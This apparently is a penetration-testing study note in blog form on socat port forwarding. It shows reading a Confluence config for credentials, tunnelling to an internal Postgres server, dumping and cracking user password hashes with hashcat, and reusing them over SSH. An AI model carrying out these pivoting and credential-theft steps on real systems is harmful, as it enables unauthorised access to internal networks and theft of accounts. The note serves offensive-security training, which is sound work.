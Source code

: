 ```yaml
---
layout: post
title: Port Forwarding Socat
titledate: 09/22/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "socat", "hashcat"]
---
```


#### port forwarding

upon inspecting a machine we have gained access to we discover a confluence config

    $ cat /var/atlassian/application-data/confluence/confluence.cfg.xml

this machine has creds for a machine we do not have access to but our target doe and is running a postgres server

first we need to copy or install socat on our target machine inside our WAN

we will use socat to set up a listening port on the target machine we have access to in our WAN

    target@reachable:/ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.1.1:5432

because we have connected to our target and run ip to identify another machine (10.4.1.1) running postgres (5432) that it can talk to (DMZ) but we cannot, we will execute the command above 

this tells socat that it will listen on the target machine on port 2345 and forward any received connections to port 5432 as a new process

now on our attacking machine we attempt a psql login as postgres to the target

    $ psql -h 192.168.1.1 -p 2345 -U postgres

and it gets forwarded to the DMZ machine running postgres

    postgres=# \l

list available databases

    postgres=# \c confluence

connect to confluence database

    postgres=# \dt

display tables in the database

    postgres=# select * from cwd_user;

display all contents of the cwd_user table

this table contains all of the users and passwords for confluence

we can store the hashes in a txt file to crack with hashcat on our kali machine
    
    $ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt

12001 is the hashcat mode for confluence

#### leveraging cracked passwords

if we discover a password from the above confluence database, we can try to see if there are any other services running on that server like ssh

if so, we can do the same setup as before but bind our socat to a different port

    target@reachable:/ socat TCP-LISTEN:2222,fork TCP:10.1.1.215:22

here because the target machine we can reach inside our WAN isn't running anything on port 2222 we bind that listening port and forward incoming connections to our DMZ system that is running postgres and ssh on port 22

    $ ssh database_admin@192.168.50.63 -p2222

on our linux machine we can attempt to utilize the credentials we discovered in the confluence table hack to see if we are able to ssh into the DMZ system running ssh, we provide port 2222 because that is what is listening on the confluence machine

### other port forwarding options, rinetd, netcat and FIFO named pipe file, iptables with root privs
